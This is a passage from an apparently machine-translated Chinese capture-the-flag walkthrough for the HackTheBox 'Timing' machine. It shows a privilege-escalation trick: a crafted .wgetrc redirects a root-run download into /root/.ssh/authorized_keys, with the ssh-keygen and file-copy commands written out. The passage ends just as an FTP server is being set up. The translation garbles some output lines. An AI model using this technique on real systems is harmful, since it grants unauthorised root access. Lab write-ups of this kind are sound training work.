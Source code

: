 在此框中，我们发现没有全局文件，因此我们可以通过在 aaron 的 /home 文件夹中创建自己的 .wgetrc 文件来利用它。[查看此处](https://www.gnu.org/software/wget/manual/html_node/Wgetrc-Commands.html)的可用命令，我们看到有一个选项可以设置检索到的文件的名称和路径。我们可以以 root 身份运行 java 应用程序，因此我们可以访问 /root 作为可写位置。让我们把我们的 Kali 公共 SSH 密钥放在那里，这样我们就可以在没有密码的情况下以 root 身份登录。

首先在 /home/aaron 中创建 .wgetrc 配置文件：

```
aaron@timing:~$ cat <<_EOF_>.wgetrc
> output_document = /root/.ssh/authorized_keys
> _EOF_

```

如果需要，在 Kali 上创建我们的 SSH 密钥：

```
┌── (根💀kali) - [~]
└─# ssh-keygen          
生成公钥/私钥 rsa 密钥对。
输入保存密钥的文件 (/root/.ssh/id_rsa)：
输入密码（无密码为空）：
再次输入相同的密码：
您的身份已保存在 /root/.ssh/id_rsa
您的公钥已保存在 /root/.ssh/id_rsa.pub
关键指纹是：
SHA256:B/SsKx8Z8AU/c40jKybaq8OpWpTVdl2Yz0e/ktMxXxY root@kali
密钥的 randomart 图像是：
+---[RSA 3072]----+
| 哦哦。|
| . . *ooE |
| . + o Xo + .... |
| ○。+ + * o..o + |
| 欧。苏.o.*|
| . oo * + o。
| .... o + o |
| .  +  + .       |
|…… 的。. |
+----[SHA256]-----+

```

将公钥副本放在我们的工作文件夹中：

```
┌── (根💀kali) - [~]
└─# cp .ssh/id_rsa.pub htb/timing

```

如果需要，安装 Python3 FTP 库：

![](https://miro.medium.com/max/1400/1*2PteNGaxYJWli2i0CdlScg.png)

安装 pyftpdlib

现在启动一个 FTP 服务器，这样我们就可以获取我们的 SSH 公钥：
